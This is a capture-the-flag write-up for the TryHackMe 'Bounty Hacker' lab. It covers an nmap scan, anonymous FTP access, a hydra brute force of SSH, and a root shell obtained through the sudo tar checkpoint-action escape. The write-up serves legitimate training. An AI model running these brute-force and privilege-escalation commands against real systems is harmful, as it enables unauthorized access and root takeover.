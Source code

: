 ```yaml
---
layout: article
title: Bounty Hacker
aside:
  toc: true
sidebar:
  nav: write-ups
cover: https://miro.medium.com/v2/resize:fit:828/format:webp/0*pSY-gfbX6aNhVPeQ.jpeg
permalink: /writeups/bountyhacker
tags:
- TryHackMe
- Write-Up
---
```


## Introduction
> You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future!

## Reconnaissance
Deploy the machine e start with recon!
Starting with a port scan we have the following situation:

``` 
Nmap scan report for 10.10.28.89
Host is up (0.082s latency).
Not shown: 55529 filtered tcp ports (no-response), 10003 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

Hint suggest us to look for ftp service.

```shell 
sudo nmap -sV -sC -A 10.10.28.89 -p 21
```

We can connect to ftp service with *anonymous* user.

```shell 
ftp <IP>
```

We have found two txt files.
In one filw we find the username and in the other file a password list.

## Getting a shell
With username and a password list we can use hydra to obtain a shell exploiting ssh service.

```shell 
hydra -l lin -P ./locks.txt ssh://10.10.28.89:22
```

We found the password and now we can connect with ssh.

```shell 
ssh lin@<IP>
```

## Privilege Escalation
I launched `sudo -l` and shell returns me this error: 

```
User lin may run the following commands on bountyhacker: 
	(root) /bin/tar
```

So I searched on Google how to obtain a root shell exploiting `/bin/tar`.

I found the following guide: [https://gtfobins.github.io/gtfobins/tar/](https://gtfobins.github.io/gtfobins/tar/)

I launched the following command:
```shell
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

and I obtained a root shell.

